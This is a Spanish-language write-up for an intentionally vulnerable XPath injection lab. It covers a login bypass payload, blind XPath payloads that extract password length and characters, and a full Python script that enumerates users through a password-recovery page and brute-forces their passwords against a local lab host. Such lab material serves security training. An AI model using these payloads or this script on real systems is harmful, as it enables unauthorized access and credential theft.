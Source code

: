 ## 🚨 XPath Injection (XPath-Lab)
- Aplicación vulnerable a inyección XPath, un lenguaje que permite construir expresiones que recorren y procesan un documento XML.
- En este caso, disponemos de un formulario de inicio de sesión que no está correctamente sanitizado, lo que puede llevar a un atacante a extraer información valiosa del servidor.
- Además, la web tiene una opción de recuperar contraseña que es vulnerable a **user enumeration**, por lo que mediante un ataque de fuerza bruta podemos encontrar usuarios válidos.

Gracias a este input malicioso, podemos darnos cuenta de la inyección, ya que conseguimos hacer un bypass del login:

```sh
username=test&password=' or '1'='1
```

Pero si además disponemos de usuarios válidos, podemos deducir la contraseña de estos empleando este input:

```sh
username=test&password=test' or username='{username}' and string-length(password)='{longitud a probar}
```
Por último, una vez que disponemos de la longitud de la contraseña, podemos extraerla caracter a caracter:

```sh
username=test&password=test' or username='{username}' and substring(password,1,1)='{caracter a probar}
```

Ya que hacer esto a mano es muy tedioso, he desarrollado este script que automatiza la inyección y enumera los usuarios existentes así como sus contraseñas:

```python
import requests, signal, sys, string
from termcolor import colored

# CTRL+C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo ....\n",'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://192.168.1.60:5010/"
forgot_password_url = "http://192.168.1.60:5010/forgot-password"
chars = string.ascii_letters + string.digits + string.punctuation

def load_user_wordlist():
    user_wordlist = []
    with open('users_dictionary.txt', 'r') as file:
        for user in file:
            user_wordlist.append(user.strip())
    return user_wordlist

def get_users():
    user_wordlist = load_user_wordlist()
    valid_users = []
    for user in user_wordlist:
        post_data = {
            "username": f"{user}"
        }

        r = requests.post(forgot_password_url, data=post_data)

        if not "Usuario no encontrado" in r.text:
            valid_users.append(user)

    return valid_users

def get_password_length(user):
    
    for i in range(1, 30):

        post_data = {
            "username": "test",
            "password": f"test' or username='{user}' and string-length(password)='{i}"
        }

        r = requests.post(login_url, data=post_data)

        if not "Invalid credentials" in r.text:
            return i

def get_password(user, password_lenth):
    password = ""
    for i in range(1, password_length + 1):
        for character in chars:
            post_data = {
                "username": "test",
                "password": f"test' or username='{user}' and substring(password,{i},1)='{character}"
            }

            r = requests.post(login_url, data=post_data)

            if not "Invalid credentials" in r.text:
                password += character
                break
    return password


if __name__ == "__main__":

    valid_users = get_users()
    print(colored("\n[*] Usuarios encontrados: " + ", ".join(valid_users) + "\n",'blue'))

    for user in valid_users:
        password_length = get_password_length(user)
        print(colored("[i] La longitud de la contraseña de {} es: {}\n".format(user, password_length),'yellow'))
        password = get_password(user, password_length)
        print(colored("\t[+] Contraseña de {}: {}\n".format(user, password),'green'))
```

La parte de la enumeración de usuarios existentes ha sido posible ya que existe una funcionalidad en la web que permite recuperar la contraseña. Sin embargo, podemos saber cuando un usuario existe gracias a la respuesta del servidor (se trata de otro fallo de seguridad, esta vez a **user enumeration**). 